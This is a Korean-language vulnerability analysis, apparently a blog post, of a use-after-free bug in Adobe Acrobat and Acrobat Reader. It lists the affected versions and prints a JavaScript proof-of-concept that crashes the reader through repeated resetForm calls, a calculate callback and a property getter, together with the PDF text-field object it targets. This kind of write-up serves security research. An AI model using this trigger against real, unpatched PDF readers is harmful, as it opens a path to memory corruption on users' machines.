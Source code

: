 - Adobe Acrobat 2020
    - version ≤ 20.005.30418
- Adobe Acrobat Reader 2020
    - version ≤ 20.005.30418
- Acrobat DC
    - version ≤ 22.003.20282
- Acrobat Reader DC
    - version ≤  22.003.20282

제 경우에는 분석과 익스플로잇을 위해 Adobe Acrobat Reader DC x86의 2022.001.20085 버전을 사용했습니다!

# 2. 취약점 분석

---

먼저 아래는 Use-After-Free를 유발하여 크래시를 발생시키는데 사용된 Javascript 코드입니다.

```jsx
var testField = this.getField("testField");

testField.richText = true;

testField.setAction("Calculate", "calculateCallback()");

try { this.resetForm(); } catch (e) {}

try { this.resetForm(); } catch (e) {}  // bug is triggered during this resetForm call

function calculateCallback()

{

  event.__defineGetter__("target", getterFunc);

  event.richValue = this;

}

function getterFunc()

{

  try { Object.defineProperty(testField, "textFont", { value: this }); } catch(e) { }

}
```

해당 코드가 삽입된 PDF 문서에는 아래와 같은 `testField`라는 이름을 가지는 text field가 존재합니다

```
5 0 obj
<<
/Type /Annot
/Subtype /Widget
/T (testField)
/FT /Tx
/Rect [0 0 0 0]
>>
```

